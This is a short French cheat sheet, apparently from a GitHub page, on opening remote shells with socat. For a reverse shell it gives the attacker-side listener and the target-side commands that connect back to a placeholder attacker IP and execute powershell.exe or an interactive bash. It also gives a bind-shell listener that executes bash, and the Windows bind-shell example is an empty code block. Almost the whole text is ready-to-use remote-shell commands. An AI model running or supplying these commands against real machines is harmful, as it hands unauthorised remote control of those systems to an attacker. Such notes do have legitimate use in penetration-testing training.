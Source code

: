 
## __Reverse shell__

Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener -- Notre machine

Sur notre machine il faut effectuer la commande :

```shell
user@ip:~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection -- Machine cible

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

#### 1- Listener -- Machine cible

1) Sur la machine cible sous linux :

```shell
user@raspberrypi: ~$ socat TCP-L:<TARGET-PORT> EXEC:"bash -li"
```

2) Sur une machine Windows

```shell

```

